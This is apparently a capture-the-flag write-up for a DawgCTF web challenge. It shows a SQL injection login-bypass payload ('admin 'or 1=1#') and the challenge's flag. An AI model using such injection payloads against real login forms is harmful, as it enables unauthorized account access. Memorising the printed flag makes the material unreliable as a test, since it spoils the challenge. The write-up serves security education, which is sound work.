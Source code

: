 # Dr. Hrabowski's Great Adventure (150)

### Description
> President Freeman Hrabowski is having a relaxing evening in Downtown Baltimore. But he forgot his password to give all UMBC students an A in all their classes this semester! Find a way to log in and help him out. (If you get an SSL error, try a different browser)

### Connection
http://umbccd.io:6100

### Solution
1. SQL injection
    ```sql
    username = admin 'or 1=1#
    password = <anything>
    ```
    ![](./images/login.png)
2. Click the button, an image appears, Trace the source code and find out the flag\
    ![](./images/flag.png)

### Flag
```
DawgCTF{WeLoveTrueGrit}
```